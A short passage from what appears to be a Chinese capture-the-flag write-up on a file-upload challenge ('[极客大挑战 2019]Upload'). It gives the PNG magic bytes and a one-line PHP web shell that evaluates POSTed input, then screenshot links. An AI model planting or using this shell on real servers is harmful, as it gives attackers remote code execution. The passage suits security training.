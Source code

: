 PNG文件头：89 50 4E 47

```
<script language="php">eval($_POST['x']);</script>
```

## [极客大挑战 2019]Upload

![image-20250917200237870](assets/image-20250917200237870.png)

![image-20250917200509978](assets/image-20250917200509978.png)

![image-20250917200544536](assets/image-20250917200544536.png)
